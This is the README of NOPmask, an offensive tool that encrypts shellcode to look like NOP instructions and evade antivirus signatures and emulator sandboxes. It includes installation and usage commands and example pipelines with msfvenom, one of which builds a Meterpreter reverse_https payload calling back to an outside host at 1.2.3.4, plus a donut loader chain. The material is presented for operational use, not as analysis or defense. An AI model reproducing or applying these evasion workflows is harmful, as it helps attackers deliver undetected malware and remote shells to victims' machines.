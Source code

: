 # NOPmask v1.0
██████████████████████████████████████████████
█▄─▀█▄─▄█─▄▄─█▄─▄▄─█▄─▀█▀─▄██▀▄─██─▄▄▄▄█▄─█─▄█
██─█▄▀─██─██─██─▄▄▄██─█▄█─███─▀─██▄▄▄▄─██─▄▀██
▀▄▄▄▀▀▄▄▀▄▄▄▄▀▄▄▄▀▀▀▄▄▄▀▄▄▄▀▄▄▀▄▄▀▄▄▄▄▄▀▄▄▀▄▄▀

Shellcode obfuscation utility to evade signature-based detection and emulator-driven analysis.

---

## Features

- Encrypts shellcode to appear like benign NOP instructions.
- Decrypts and executes shellcode only when running on a real machine.
- Works with any operating system that runs on the AMD64 or i386 architecture.

---

## Installation

Clone the repository:

```bash
git clone https://github.com/whoamiamleo/NOPmask
cd NOPmask
```

Install dependencies:
```bash
pip install -r requirements.txt
```

---

## Usage
```console
usage: NOPmask.py [-h] -a {amd64,i386} -i INPUT -o OUTPUT -f {base64,binary}

options:
  -h, --help                        show this help message and exit
  -a, --arch {amd64,i386}           target CPU architecture
  -i, --input INPUT                 path to input file
  -o, --output OUTPUT               path to output file
  -f, --format {base64,binary}      format of output file
```

Basic usage example:
```bash
python NOPmask.py -a amd64 -i shellcode.bin -o masked_shellcode.bin -f binary
```

Example of using with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=1.2.3.4 LPORT=443 -f raw -o raw_shellcode.bin
python NOPmask.py -a amd64 -i raw_shellcode.bin -o masked_shellcode.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_shellcode.bin -f C -v shellcode
```

Example of using with donut:
```bash
donut.exe -a 2 -i payload.dll -o loader.bin
python NOPmask.py -a amd64 -i loader.bin -o masked_loader.bin -f binary
msfvenom -p generic/custom PAYLOADFILE=masked_loader.bin -f C -v shellcode
```

### Warnings

1. The decryption stub alters the memory space that the shellcode is executed within, and therefore the memory space allocated for the shellcode must have Read/Write/Execution permissions.
2. The emulation evasion technique employed here exploits the fact that emulators are not patient, they will try to rush the emulation to not let the user wait, so please allow up to a minute for your shellcode to execute.

---

## Attribution

Written by Leopold von Niebelschuetz-Godlewski

[https://github.com/whoamiamleo/NOPmask](https://github.com/whoamiamleo/NOPmask)

Licensed under the MIT License.

If you use NOPmask in your projects, a link back or mention is appreciated!

---

## Contributing
Contributions, issues, and feature requests are welcome!
Feel free to check the [issues](https://github.com/whoamiamleo/NOPmask/issues) page or submit a pull request.

---

## License
This project is licensed under the MIT License — see the [LICENSE](https://raw.githubusercontent.com/whoamiamleo/NOPmask/main/LICENSE) file for details.